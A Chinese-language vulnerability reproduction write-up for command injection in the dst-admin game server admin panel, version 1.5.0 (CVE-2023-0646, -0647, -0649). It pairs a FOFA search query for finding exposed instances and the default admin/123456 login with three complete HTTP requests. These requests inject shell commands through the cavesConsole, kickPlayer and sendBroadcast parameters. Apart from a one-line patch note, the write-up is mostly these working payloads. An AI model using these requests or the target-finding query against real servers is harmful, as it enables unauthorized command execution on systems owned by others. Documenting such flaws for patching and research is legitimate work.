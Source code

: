 
# dst-admin 饥荒管理后台 RCE 漏洞复现（CVE-2023-0646、CVE-2023-0647、CVE-2023-0649）

### 0x01 产品简介

  dst-admin 饥荒管理后台是 qinming99 个人开发者的一个用 Java 语言编写的 web 程序。

### 0x02 漏洞概述

  dst-admin 饥荒管理后台 kickPlayer、cavesConsole、sendBroadcast 等接口处配置不当，导致破解口令后的攻击者可以进行[命令注入](https://so.csdn.net/so/search?q=%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)，获取服务器权限。

### 0x03 影响范围

dst-admin 1.5.0 版本

### 0x04 复现环境

[FOFA](https://so.csdn.net/so/search?q=FOFA&spm=1001.2101.3001.7020)：title=="饥荒管理后台"

![](assets/1701071165-847417b16930cf5977a6d99e06d6a913.png)

### 0x05 漏洞复现 

弱口令登录

admin/123456

**CVE-2023-0646**

```http
POST /home/cavesConsole HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json
Cookie: JSESSIONID=65b0f393-708f-4e03-b564-52b1bc0b683a;rememberMe=deleteMe;
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"command":"\"&ping Dnslog;\""}
```

![](assets/1701071165-ab8279041a66f2956465fcb9e5ac041f.png)

 **CVE-2023-0647**

```http
GET /home/kickPlayer?userId=%5C%22)%5Cn%22%26ping+Dnglog%26screen%20-S%20%22DST_CAVES%22%20-p%200%20-X%20stuff%20%22TheNet%3AKick(%5C%22 HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: JSESSIONID=93ab200b-a15d-4ac6-8138-abfa1262b5f5;rememberMe=deleteMe;
```

![](assets/1701071165-6ff8f1d73437da7b30c6100fd5693371.png)

**CVE-2023-0649**

```http
GET /home/sendBroadcast?message=%5C%22)%5Cn%22%26ping+dnslog%26screen%20-S%20%22DST_CAVES%22%20-p%200%20-X%20stuff%20%22TheNet%3AKick(%5C%22 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: JSESSIONID=94d5d20b-036a-41bf-a77c-334d2be0ed80;rememberMe=deleteMe;
Accept-Encoding: gzip
```

![](assets/1701071165-92fe6060aabf8830797883278fc6e75b.png)

### ![](assets/1701071165-733d6d45d2e5efbbce91daf3f5dee863.png) 0x06 修复建议 

目前厂商已发布升级补丁以修复漏洞，

补丁获取链接：https://github.com/qinming99/dst-admin
